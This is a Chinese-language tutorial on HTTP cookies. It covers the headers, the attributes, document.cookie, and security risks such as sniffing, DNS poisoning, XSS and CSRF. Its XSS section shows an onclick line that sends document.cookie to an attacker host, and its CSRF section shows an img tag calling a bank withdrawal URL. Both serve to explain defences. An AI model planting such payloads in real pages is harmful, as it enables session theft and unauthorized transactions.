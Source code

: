 ## 1. 什么是cookie，为什么需要它？
   + 简单来说——cookie是客户端存储数据的其中一种方式。 
   + 为什么需要——因为http是无状态协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，也就是说服务器单从网络连接上是无法知道用户身份的。
而Cookie就是为了解决这个问题，`识别用户`和`记录状态`。
     
## 2. cookie的作用是什么？
    上面第一点又讲了，Cookie的作用就是`识别用户`和`记录状态`
    MDN上面给出了三个目的，异曲同工
    + 会话管理：登录名，购物车，游戏得分或服务器应记住的其他内容
    + 个性化： 用户首选项，主题和其他设置
    + 追踪： 记录和分析用户行为

## 3. 前端cookie怎么与后端进行关联？
    + 服务器：收到http请求后，服务器发送一个或多个`Set-Cookie`标头以及响应。
    ```
        HTTP/2.0 200 OK
        Content-Type: text/html
        Set-Cookie: yummy_cookie=choco
        Set-Cookie: tasty_cookie=strawberry
        //这一段报文，告知客户端存储这两个cookie
    ```
    + 客户端：存储cookie，然后将cookie与在`Cookie`的HTTP标头中的请求发送到同一服务器。
    ```
        GET /sample_page.html HTTP/2.0
        Host: www.example.org
        Cookie: yummy_cookie=choco; tasty_cookie=strawberry
        //这一段报文，在对服务器的每个后续请求中，浏览器使用`Cookie`标头将所有先前存储的cookie发送回服务器。
    ```
## 4. cookie的构成
    + 名称 name
    > cookie名称是不区分大小写的。但是实践中最好还是将cookie名称看做是区分大小写。
    + 值 value
    > 存储在cookie中的字符串值。值必须被URL编码
    + 域 domain
    > cookie对于哪个域是有效的。所有向该域发送的请求中都会包含这个cookie信息。如果没有明确设定，那么这个域会被认为是来自设置cookie的那个域
    + 路径 path
    > 对于指定域中的那个路径，应该向服务器发送cookie。例如，可以指定cookie只有从 http://baidu.com/image/中才能访问，那么http://baidu.com的页面就不会发送cookie信息。即使请求都是来自同一个域。
    + 失效时间 expires
    > 表示 cookie 合适应该被删除的时间戳。默认情况下，浏览器回话结束时就将所有cookie删除，不过可以设置删除时间。这个值是个GMT格式的日期（Wdy,DD-Mon-YYYY HH:MM:SS GMT）..
    + 安全标志 secure
    > 指定后，cookie只有在使用SSL连接的时候才会发送到服务器。
    + HttpOnly
    > 指定后，通常从web页面内还可以对Cookit进行读取操作，但使用JavaScript的document.cookie就无法读取附加HttpOnly属性后的Cookie内容。因此，可以防止跨站脚本攻击（Cross-Site Scripting, XSS）。
    + SameSite
    > 该SameSite 属性使服务器可以指定是否/何时使用跨域请求发送cookie（其中站点由可注册域定义），从而为跨站点请求伪造攻击（CSRF）提供了一些保护
    它有三个可能的值：Strict，Lax，和None。
    使用Strict，Cookie仅发送到与它起源的站点相同的站点；
    Lax相似，不同之处在于cookie是在用户导航到cookie的原始站点时发送的，例如通过跟踪外部站点的链接发送的；
    None 指定在发起请求和跨站点请求上都发送cookie，但仅在安全上下文中发送 （即，如果还必须设置SameSite=None该Secure属性）。如果未SameSite设置任何属性，则cookie被视为Lax。
## 5. cookie怎么使用
    核心就一个，`document.cookie`，既可以是获取，也可以是设置，笑死~~~
    需要注意的就是所有的名字和值都是经过URL编码的，所以必须使用decodeURIComponent()来解码，当然在设置的时候，要用encodeURIComponent()来编码。
## 6. cookie安全性问题
    + 网络窃听
        网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。
        解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。
    + DNS缓存中毒
        如果攻击者可以使DNS缓存中毒，那么攻击者就可以访问用户的Cookie了，例如：攻击者使用DNS中毒来创建一个虚拟的NDS服务http://h123456.www.demo.com指向攻击者服务器的ip地址。然后攻击者可以从服务器 http://h123456.www.demo.com/img_01.png 发布图片。用户访问这个图片，由于 http://www.demo.com和http://h123456.www.demo.com是同一个子域，所以浏览器会把用户的与http://www.demo.com相关的cookie都会发送到http://h123456.www.demo.com这个服务器上，这样攻击者就会拿到用户的cookie搞事情。
        一般情况下是不会发生这种情况，通常是网络供应商错误。
    + 跨站点脚本XSS
        使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。
        ```html
            <a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a> 
        ```
        当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到http://abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。
        解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。
    + 跨站请求伪造CSRF
        例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
        ```html
        <img src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" > 
        ```
        如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。
        解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。
        
## 7. cookie的限制
    + cookie 在性质上是绑定在特定的域名虾米昂的。当设定了一个cookie后，再给创建它的域名发送请求时，都会包含这个cookie。这个限制确保了储存在cookie中的信息只能让批准的接受者访问。而无法被其他域访问
    + cookie数量的限制
      > ie6以及更低版本限制每个域名最多20个cookie
      > ie7,firefox限制每个域名最多50个cookie
      > Opera限制每个域名最多30个cookie
      > Safari 和 Chrome 对于每个域的cookie数量限制没有硬性规定
    + cookie长度限制
      > 大多数浏览器都有大约4095B（加减1）的长度限制。
## 8. 第三方cookie

>参考文章
+ https://zhuanlan.zhihu.com/p/31852168
+ https://zhuanlan.zhihu.com/p/58666986

